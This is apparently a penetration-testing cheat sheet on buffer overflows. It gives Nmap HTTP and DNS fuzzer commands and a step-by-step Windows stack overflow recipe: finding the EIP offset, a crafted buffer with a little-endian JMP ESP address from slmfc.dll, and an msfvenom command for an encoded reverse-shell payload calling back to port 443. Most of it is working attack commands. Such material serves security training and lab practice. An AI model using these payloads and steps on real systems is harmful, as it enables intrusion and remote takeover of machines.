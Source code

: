 Buffer Overflows and Exploits
===================================================================================================================================

-   DEP and ASLR - Data Execution Prevention (DEP) and Address Space
    Layout Randomization (ASLR)


-   Nmap Fuzzers:

    -   NMap Fuzzer List
        [https://nmap.org/nsedoc/categories/fuzzer.html](https://nmap.org/nsedoc/categories/fuzzer.html)

    -   NMap HTTP Form Fuzzer
        nmap --script http-form-fuzzer --script-args
        'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}'
        -p 80 $ip

    -   Nmap DNS Fuzzer
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d

-   MSFvenom
    [*https://www.offensive-security.com/metasploit-unleashed/msfvenom/*](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

-   Windows Buffer Overflows

    -   Controlling EIP

             locate pattern_create
             pattern_create.rb -l 2700
             locate pattern_offset
             pattern_offset.rb -q 39694438

    -   Verify exact location of EIP - [\*] Exact match at offset 2606

            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    -   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    -   Use Mona to determine a module that is unprotected

    -   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    -   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP
            00000000 FFE4 jmp esp

    -   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

    -   MSFVenom to create payload

            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

